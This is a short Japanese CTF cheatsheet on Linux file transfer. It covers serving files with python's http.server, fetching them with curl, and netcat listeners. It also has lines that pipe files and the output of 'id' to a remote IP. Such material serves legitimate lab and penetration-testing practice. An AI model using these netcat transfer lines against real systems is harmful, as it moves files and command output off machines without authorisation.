 ```yaml
---
layout: post
title: ファイル転送
published : true
permalink: /ctf/cheatsheets/common/file_trancefer
tags: [CTF, Common, cheatsheet, file trancefer, ファイル転送]
---
```

## linux
### curl
#### 送信側(待受)
```sh
python3 -m http.server 8888
```
#### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
### nc
#### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name
```
#### 送信側
- ファイルの場合

```sh
nc 10.11.42.116 9999 < ff.tar.gz
```

- コマンド結果の場合
```sh
id | nc 10.11.42.116 9999
```